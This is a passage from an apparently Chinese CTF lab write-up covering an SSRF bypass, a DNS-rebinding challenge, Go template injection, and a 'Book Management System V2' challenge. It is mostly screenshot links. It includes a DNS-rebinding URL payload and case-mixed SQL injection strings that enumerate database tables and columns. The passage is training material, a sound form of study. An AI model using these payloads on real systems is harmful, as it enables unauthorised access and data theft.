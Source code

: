 ![image-20241016151101197](D:\ctf wp\40.1.assets\image-20241016151101197.png)

尝试用伪协议

![image-20241016151217778](D:\ctf wp\40.1.assets\image-20241016151217778.png)

index.php查看源码

![image-20241016151243932](D:\ctf wp\40.1.assets\image-20241016151243932.png)

发现禁用数字 SSRF绕过![image-20241016151326237](D:\ctf wp\image-20241016151326237.png)

## 13.DNS重绑定 Bypass

![image-20241016153321076](D:\ctf wp\40.1.assets\image-20241016153321076.png)

进入后发现与上题一样 先用localhost拿到flag

尝试采用本题提示方法（https://zhuanlan.zhihu.com/p/89426041）浅谈DNS重绑定漏洞

（https://lock.cmpxchg8b.com/rebinder.html）通过此网站设置DNS

![image-20241016185030300](D:\ctf wp\40.1.assets\image-20241016185030300.png)

?url=7f000001.7f000002.rbndr.us/flag.php

![image-20241016185046601](D:\ctf wp\40.1.assets\image-20241016185046601.png)

## 14.go ahead

![image-20241017171608060](D:\ctf wp\40.1.assets\image-20241017171608060.png)

搜索go ssti  学习go-web基础

![image-20241017171735721](D:\ctf wp\40.1.assets\image-20241017171735721.png)

查看源代码![image-20241017171803381](D:\ctf wp\40.1.assets\image-20241017171803381.png)

打开靶机![image-20241017172428530](D:\ctf wp\40.1.assets\image-20241017172428530.png)

于是给tmpl传值 查看request的参数![image-20241017171838611](D:\ctf wp\40.1.assets\image-20241017171838611.png)

## 15.Book Management System_V2

![image-20241018135550733](D:\ctf wp\40.1.assets\image-20241018135550733.png)

打开靶机采用与V1一样的方式尝试 ![image-20241018135656060](D:\ctf wp\40.1.assets\image-20241018135656060.png)

发现存在绕过 --+ 纯大小写等都不行

0' Union Select 1,Group_Concat(Table_naMe),3 FroM infOrmation_sChema.tablEs;%23 一个个查看表名![image-20241018135753533](D:\ctf wp\40.1.assets\image-20241018135753533.png)

0' UNion SElect 1,GRoup_COncat(COlumn_NaMe),3 FroM infOrMation_SChema.COlumns WHere TAble_SChema=DaTabase();%23 
